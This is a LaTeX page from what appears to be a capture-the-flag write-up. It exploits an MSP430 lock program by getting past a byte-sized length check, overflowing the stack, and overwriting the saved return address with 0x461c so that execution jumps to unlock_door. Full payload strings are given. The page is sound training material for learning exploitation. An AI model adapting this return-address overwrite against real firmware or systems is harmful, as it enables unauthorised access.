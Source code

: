 \documentclass[a4paper,11pt]{article}
\begin{document}
Don't you see something? \texttt{cmp.b \#0x21, r15}.\\This means:
compare byte of r15 and 0x21. But words are 2 bytes in MSP430 (so
registers and address in the stack are 2 bytes).\\What if we wrote
0x1020 for example. Would it be lesser than 0x21 ?

Let's try that.

I enter
\texttt{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa}
(length of 0x20) as username.

we want the toal to be 0x0100 to test our hypothesis. So we need 0xd0
more (14 * 16 = 224 bytes).

Entering
\texttt{bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb}
it works and we get lost at a random address. We've successfully
overwrote the return address.

Breaking on the return instruction we can see at what address the Saved
PC is (at the SP address).

\includegraphics{img/11_5.PNG}

So we can enter our personalized return address at the byte number 5 and
6 of our password (if our username is of length 0x20 of course). Let's
return at the instruction \texttt{unlock\_door}.

So entering the same username, and this as password works:

\texttt{bbbbbbbb1c46bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb}
\end{document}
